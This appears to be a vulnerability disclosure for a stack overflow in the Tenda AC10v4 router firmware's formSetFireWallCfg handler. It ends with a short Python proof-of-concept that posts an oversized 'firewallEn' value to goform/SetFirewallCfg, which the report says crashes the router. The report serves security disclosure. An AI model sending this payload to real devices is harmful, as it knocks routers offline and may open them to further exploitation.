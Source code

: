 # Notification of Stack Overflow Vulnerability in Tenda AC10v4 Router (Version V16.03.10.13) by Shenzhen Tenda Technology 

Router Firmware Download: [https://www.tenda.com.cn/material/show/103506](https://www.tenda.com.cn/material/show/103506)

The vulnerability occurs at the function `formSetFireWallCfg`.

![image](https://github.com/xubeining/Cve_report/blob/main/photoforstackoverflow1.png)
![image](https://github.com/xubeining/Cve_report/blob/main/photostackoverflow2.png)

The program retrieves the user input parameter "firewallEn" but does not perform size checks.  
When the parameter input is too large, it causes a stack overflow, leading to a crash or potential exploitation.  
The issue is located in the `formSetFireWallCfg` function, which is referenced by `formDefineTenDa` at line 28.

![image](https://github.com/xubeining/Cve_report/blob/main/photostackoverflow3.png)

The issue can be further cross-referenced to `FUN_0043b3d8`, with particular attention to lines 50 and 53.

![image](https://github.com/xubeining/Cve_report/blob/main/photostackoverflow4.png)

The vulnerability occurs on the page path: `goform/SetFirewallCfg`.

## Now, let's proceed with the reproduction.

![image](https://github.com/xubeining/Cve_report/blob/main/photostackoverflow5.png)

![image](https://github.com/xubeining/Cve_report/blob/main/photostackoverflow6.png)

Now, run the script.

![image](https://github.com/xubeining/Cve_report/blob/main/photostackoverflow7.png)
![image](https://github.com/xubeining/Cve_report/blob/main/photostackoverflow8.png)

The router crashes, and the website becomes inaccessible.

## Payload
```python
import requests

url = "http://192.168.100.135/goform/SetFirewallCfg"
payload = {
    'firewallEn': b'a' * 100000
}
res = requests.post(url=url, data=payload)
